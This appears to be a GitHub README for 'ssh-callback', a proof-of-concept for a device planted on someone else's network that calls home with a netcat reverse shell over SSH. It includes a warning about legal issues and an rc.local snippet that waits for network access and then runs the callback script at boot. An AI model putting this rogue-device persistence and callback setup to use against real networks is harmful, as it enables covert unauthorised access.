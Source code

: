 # ssh-callback
This script creates a reverse shell using netcat over SSH...

Requirements:
- Access to a remote network (Be aware, attaching a rogue device on a network you do not own can bring about legal and ethical issues. This is a proof-of-concept script)
- A device on which to run this script, either via CRON or rc.local
- A home server that can accept the SSH callback connections using Public/Private keys (RSA, etc)
- SSH client on remote device
- NetCat (nc) on remote device

Here is how I loaded this in my /etc/rc.local file to run at boot time:
...
# ----------------------------------------------------------
# This is a PoC callback script...
# ----------------------------------------------------------
# wait for network connection to establish before call back
(
until ping -nq -c3 8.8.8.8; do
  sleep 5
done
#
/bin/bash /root/callback.sh
)&
# END
# ----------------------------------------------------------
...

